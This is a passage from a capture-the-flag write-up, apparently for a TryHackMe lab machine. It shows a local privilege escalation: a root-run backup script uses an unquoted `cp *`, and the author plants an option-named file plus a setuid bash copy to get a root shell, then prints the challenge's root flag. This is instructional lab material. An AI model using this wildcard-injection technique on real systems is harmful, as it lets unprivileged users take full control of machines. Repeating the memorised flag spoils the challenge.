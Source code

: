 We got a `/usr/bin/backup`, let's check it out:

```
gordon@devie:~$ file /usr/bin/backup
/usr/bin/backup: Bourne-Again shell script, ASCII text executable

gordon@devie:~$ cat /usr/bin/backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/
```

As seen, this uses `*` to copy the contents of the `reports` directory to the `backups` directory, this is vulnerable to `wildcard injection` due to the `*` character being `unquoted`,  we can get a root shell by doing the following:

```
cd /home/gordon/reports/
touch -- '--preserve=mode'
cp /bin/bash .
chmod u+s bash
```

Once the /usr/bin/backup triggers, we can now see the bash binary inside of the backups directory:

```
gordon@devie:~/backups$ ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 May  4 21:06 .
drwxr-xr-x 6 gordon gordon    4096 May  4 20:36 ..
-rwsr-xr-x 1 root   root   1183448 May  4 21:07 bash
-rwxrwxr-x 1 root   root        25 May  4 21:07 exploit.sh
-rw-r--r-- 1 root   root        57 May  4 21:07 report1
-rw-r--r-- 1 root   root        72 May  4 21:07 report2
-rw-r--r-- 1 root   root       100 May  4 21:07 report3
```

![Pasted image 20250504160803.png](../../IMAGES/Pasted%20image%2020250504160803.png)

There we go, let's read root flag and finish:

```
bash-5.0# cat /root/root.txt
THM{J0k3r$_Ar3_W1ld}
```
